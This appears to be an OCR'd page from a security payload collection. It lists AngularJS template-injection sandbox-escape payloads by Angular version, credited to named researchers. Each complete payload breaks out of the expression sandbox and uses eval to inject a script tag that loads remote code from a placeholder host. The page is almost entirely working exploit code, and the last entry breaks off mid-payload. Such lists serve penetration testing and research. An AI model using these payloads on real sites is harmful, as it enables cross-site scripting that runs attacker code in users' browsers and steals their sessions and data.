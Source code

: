 ```javascript
{{
    (_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("
        var _ = document.createElement(\'script\');
        _.src=\'//localhost/m\';
        document.getElementsByTagName(\'body\')[0].appendChild(_)")')()
}}
```

1.2.19 (FireFox) by Mathias Karlsson

```javascript
{{
    toString.constructor.prototype.toString=toString.constructor.prototype.call;
    ["a",'eval("var _ = document.createElement(\'script\');
    _.src=\'//localhost/m\';
    document.getElementsByTagName(\'body\')[0].appendChild(_)")'].sort(toString.constructor);
}}
```

1.2.20 - 1.2.29 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.3.0 - 1.3.9 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`
    var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),a')
}}
```

1.4.0 - 1.5.8 by Gareth Heyes (PortSwigger)

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');
    _.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

1.5.9 - 1.5.11 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
```